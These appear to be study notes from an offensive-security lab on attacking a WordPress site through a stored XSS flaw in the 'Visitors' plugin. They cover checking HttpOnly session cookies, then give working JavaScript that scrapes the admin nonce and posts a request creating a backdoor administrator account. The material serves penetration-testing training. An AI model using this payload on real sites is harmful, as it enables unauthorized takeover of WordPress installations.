 Verify nature of WP's session cookies
- Log in as *admin* user
- Open Dev tools
- Navigate to *Storage* tab
- Click on _http://offsecwp_ under the _Cookies_ menu on the left
![](wp_cookies.png)
	6 cookies are stored, but only 4 are session cookies (see Expires/ Max-Age column)

As all session tokens have HttpOnly set to *true*, they can't be accessed by JS.
However, as JS code will be executed when an admin uses the *Visitors* plugin, we can create a new admin user.

## Attacking WP site via Visitors plugin - create new admin acct
	\* Code for Visitors plugin can be found at hxxps://downloads.wordpress[.]org/plugin/visitors-app.0.3.zip
		- will download zip full of plugin's contents

Using an attack similar to [Shift8](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)
1. Create a JS function that fetches the WordPress admin _nonce_ in order to perform any admin action
	- nonce is a server-generated token that is included in each HTTP request to add randomness and prevent CSRF attacks
	- by including and checking the pseudo-random nonce, WordPress prevents CSRF attacks as the attacker couldn't know what the nonce is
	- nonce won't be a problem w/ the stored XSS vuln discovered w/in the plugin
```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";    //<--- note
var nonceRegex = /ser" value="([^"]*?)"/g;    //<--- note
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
...
```
	Get nonce
	- performs a new HTTP request towards the **/wp-admin/user-new.php** URL
	- saves the nonce value found in the HTTP response based on the regex.
	- the regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

2. Craft the main function responsible for creating the new admin user (& add onto end of first bit of code)
```javascript
...
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";    //<--- note
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
	New backdoor admin
	If successful, grants full admin access to the entire WP installation
